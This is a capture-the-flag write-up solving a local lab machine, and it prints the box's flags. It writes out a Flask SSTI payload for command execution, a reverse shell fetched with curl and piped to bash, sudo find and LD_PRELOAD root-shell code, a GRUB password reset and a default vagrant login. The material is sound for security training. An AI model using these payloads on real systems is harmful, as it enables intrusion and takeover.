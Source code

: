 ## Th3HackerNewsBdarija box Writeup

### Introduction 

Hey ! 
Before starting this writeup, we would like to thank Thehackernewsbdarija community and thank the staff that created this box.

![image](https://c.tenor.com/G0PWi59OVk0AAAAM/mr-bean-delicious.gif)

And i'm happy because i won this competition

![happy](https://c.tenor.com/aSW9ZfIIC64AAAAC/shaq-shimmy.gif)

Description [Moroccan Darija] : https://www.facebook.com/Th3HackerNewsBdarija/posts/219555037030078

Download link : https://drive.google.com/file/d/1ipYcoAsZ-uTrSpFcu4s0oo0OmBKqHwgk/view?usp=sharing

Enjoy!

# Writeup

## Web 
let's find the ip for the machine, i used netdiscover but you are free to use nmap or your router page 

```bash
netdiscover -r 192.168.1.1/24
```

I started by fuzzing on parameters to detect any parametes

![bigdd](https://imgur.com/aB2aOjP.png)

After getting the "search" parameter we can remark that it is infected by a "Flask SSTI2" vulnerability 

`http://192.168.1.108/?search={{3 * 3}}`

![pp](https://imgur.com/xFVJDr0.png)

We can exploit that to get an rce

`http://192.168.1.108/?search={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

![bigppp](https://imgur.com/yqqngBi.png)

Getting a reverse shell
    localhost :

```bash
echo "/bin/bash -l > /dev/tcp/192.168.1.109/4444 0<&1 2>&1" > payload.sh
python -m SimpleHTTPServer
nc -nlvp 4444
```

    Server : http://192.168.1.108/?search={{request.application.__globals__.__builtins__.__import__('os').popen('curl http://192.168.1.109:8000/payload.sh | bash').read()}}

and we got a shell : 

![ppd](https://i.imgur.com/QWpoHLI.png)

## Pwn : 

After getting a shell as c3p0 we can see an executable "hackernews"

![bigpp](https://i.imgur.com/gULwJX9.png)

This executable asks for a password 

![ON0WT2w.png](https://i.imgur.com/ON0WT2w.png)

We can simply find the password by using strings 

![pwn](https://imgur.com/GF8XlNx.png)

By submitting the file we get an encoded password 

![pp](https://i.imgur.com/4P3761I.png)

The encoded password is encoded with Vigenere cipher with decode.fr

![hh](https://imgur.com/8IWQ4BL.png)

`user.txt : thnb{m4b9a_w4l0_4lm0jt4h1D}`

## Privelege esculation 

Using `sudo -l` to check user priveleges, we can see that `c3p0` user can execute the find command as root user.

![find](https://i.imgur.com/2xhEgge.png)

We can exploit that using gftobins 

![sudo](https://imgur.com/WjO72Kg.png)

```bash
sudo find . -exec /bin/sh \; -quit
```

Eventually after using this command we can get a shell as root and read the flag

![root](https://imgur.com/feER4s4.png)

`root flag : thnb{br4v0_4kh4y_lH4ck3r_y0u_d1D_1t}`

## Privelege esculation 2 

There's another technique for privilige escalation by exploiting the environment variable “LD_Preload”

As we can see by typing sudo -l we detected the environment variable

![ld](https://i.imgur.com/K5mSsMI.png)

Let’s create a C program file inside /tmp directory

![sh](https://i.imgur.com/CK0HxPt.png)

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {

unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");

}
```

![sh](https://i.imgur.com/fBG2766.png)

Let's compile it and execute it 

```Bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so find
id
whoami
```

![ld](https://i.imgur.com/00Ba4Nc.png)

And we are root! 

### Other techniques

## Ubuntu Recovering Password 

We can get root by using Ubuntu recovering password

Once you boot your machine keep holding on `SHIFT` to enter The grub menu

![ub](https://i.imgur.com/TTvYvdX.png)

Then press on `E` on your keyboard to edit the grub panel 

![ub](https://i.imgur.com/ejJ3irz.png)

Find any line starting with “Linux” and change access from read-only to read-write by just replacing ro `console=tty1 console=ttyS0` to `rw init=/bin/bash`

![pp](https://i.imgur.com/UwnUmmI.png)

To save the changes and to boot, press `Ctrl-x` and now booting with both read and write access into a Linux kernel

![popp](https://i.imgur.com/VI2VwE8.png)

Type passwd and enter a new password 

![bip](https://i.imgur.com/DZU7WsT.png)

Reboot your machine and login with root and the new password that you created

![peed](https://i.imgur.com/VNLz4T6.png)

And now we have access to both flags

![user](https://i.imgur.com/Upxz1AX.png)

![root](https://i.imgur.com/YhPJunl.png)

## Vagrant SSH 

By default in a box, vagrant user is enabled in the ssh config

```Bash
User vagrant
IdentityFile ~/.ssh/vagrant
````

Let's try to log in with the `USER:PASS = vagrant:vagrant`
 
 ```Bash
 ssh vagrant@192.168.1.109
 ```

It works

![ssh](https://i.imgur.com/yhXFTtu.png)

let's run `sudo -l` to check user priveleges

![ssh](https://i.imgur.com/U98OK4R.png)

We can see that we can run any command as root

Let's run `sudo -s` and we got root 

![ssh](https://i.imgur.com/IJ0zluF.png)


### Conclusion 

I hope you like the writeup 
Good Hacking ! Peace






